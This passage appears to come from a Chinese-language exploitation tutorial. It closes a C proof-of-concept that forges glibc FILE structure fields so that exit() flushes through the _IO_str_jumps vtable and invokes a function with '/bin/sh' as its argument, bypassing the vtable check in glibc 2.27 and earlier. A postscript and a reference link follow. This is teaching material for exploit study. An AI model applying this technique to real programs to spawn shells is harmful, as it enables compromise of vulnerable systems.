 ```c
    // 为了方便我们一般直接设置fp->_IO_buf_base为0，方便计算，那么2 * fp->_IO_buf_end + 100 需要等于函数参数例如/bin/sh的地址
    // 换算一下也就是 _IO_buf_end = (bin_sh_addr - 100) / 2，注意当bin_sh_addr为奇数的时候向下取整，因此地址为奇数的时候直接将其+1
    *(size_t*)((char*)fp + 0x38) = 0;
    char* code = "/bin/sh\x00";
    size_t address = (size_t)code % 2 == 0 ? (size_t)code : (size_t) code + 1; 
    *(size_t*)((char*)fp + 0x40) = (size_t)((address - 100) / 2);
    
    // 下一个条件： 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100不能为负数，由于其为函数参数上面已经构造，不再需要管

    // 下一个条件：(pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))
    // 我们已经知道fp->_IO_buf_base为0，_IO_buf_end为(bin_sh_addr - 100)/2
    // 那么在同样设置fp->_IO_write_base为0的情况下，需要fp->_IO_write_ptr >= (bin_sh_addr - 100)/2 + 1
    *(size_t*)((char*)fp + 0x20) = 0;
    *(size_t*)((char*)fp + 0x28) = (size_t)((address - 100) / 2 + 1);
    
    

    exit(1);
    // // 最终会在exit、return、以及libc执行abort调用。
    return 0;
}
```

## 后记

绕过`vtable check`的方法除了`_IO_str_jumps`虚表，`_IO_wstr_jumps`虚表也是同样的。`_IO_wstr_jumps`和`_IO_str_jumps`功能基本一致，只是`_IO_wstr_jumps`是处理`wchar`的。

上面提到了这些`vtable check`的绕过方法都只是在`glibc2.27`及以下可用，因为到了`glibc2.28`中，`_IO_strfile`中的`_allocate_buffer`和`_free_buffer`已经被简单粗暴地用`malloc`和`free`来替换了，自然也就没有函数指针用于覆盖。

参考链接：

[raycp师傅的IO_FILE vtable绕过](https://xz.aliyun.com/t/5579#toc-1)
